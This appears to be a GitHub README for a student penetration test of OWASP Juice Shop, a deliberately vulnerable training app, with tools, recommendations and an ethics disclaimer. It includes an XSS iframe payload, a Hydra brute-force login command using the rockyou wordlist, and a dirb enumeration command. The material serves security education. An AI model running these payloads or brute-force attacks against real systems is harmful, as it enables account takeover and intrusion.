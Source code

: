 # OWASP Juice Shop Attack Simulation Report

This repository contains the penetration testing report and associated scripts used for identifying vulnerabilities in the OWASP Juice Shop application. The project aims to simulate attacks and highlight potential security risks, along with recommendations for mitigation.

---

## Project Structure

### Files Included:

- **`OWASP_Juice_Attack_Report.docx`**
  - A comprehensive report detailing findings, methodologies, and recommendations from the penetration test.

- **Code Snippets Used in Testing:**

```html
<iframe src="javascript:alert(`xss` )">
```

```bash
ping -c 1 juice-shop.herokuapp.com
```

```bash
hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 192.168.1.4 https-post-form "/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I
```

```bash
cd /usr/share/wordlists/
gunzip rockyou.txt.gz
```

```bash
dirb http://localhost:3000 /usr/share/wordlists/dirb/common.txt
```

---

## Tools Used

- **Hydra**: For brute-force password attacks.
- **Burp Suite**: For payload injection and vulnerability scanning.
- **OWASP ZAP**: For request analysis.
- **Dirb**: For directory enumeration.
- **Kali Linux**: As the testing environment.

---

## How to Use

1. **Install Required Tools:**
   Ensure the following tools are installed:
   - Hydra
   - Burp Suite
   - OWASP ZAP
   - Dirb

2. **Setup Testing Environment:**
   - Deploy OWASP Juice Shop locally or on a cloud environment.

3. **Execute Code Snippets:**
   - Use the code snippets provided in the report for testing specific vulnerabilities.

4. **Analyze Results:**
   - Refer to the `OWASP_Juice_Attack_Report.docx` for a detailed explanation of vulnerabilities and their impact.

---

## Recommendations

1. Enforce strict input validation and output encoding.
2. Implement account lockout mechanisms.
3. Secure critical paths with randomized URLs and access restrictions.
4. Conduct regular penetration testing and monitoring.

---

## References

- [OWASP Juice Shop Documentation](https://owasp.org/www-project-juice-shop/)
- [Kali Linux](https://www.kali.org/)

---

## Disclaimer

This project is intended for educational and ethical purposes only. Unauthorized testing or exploitation of applications without explicit permission is illegal and unethical.
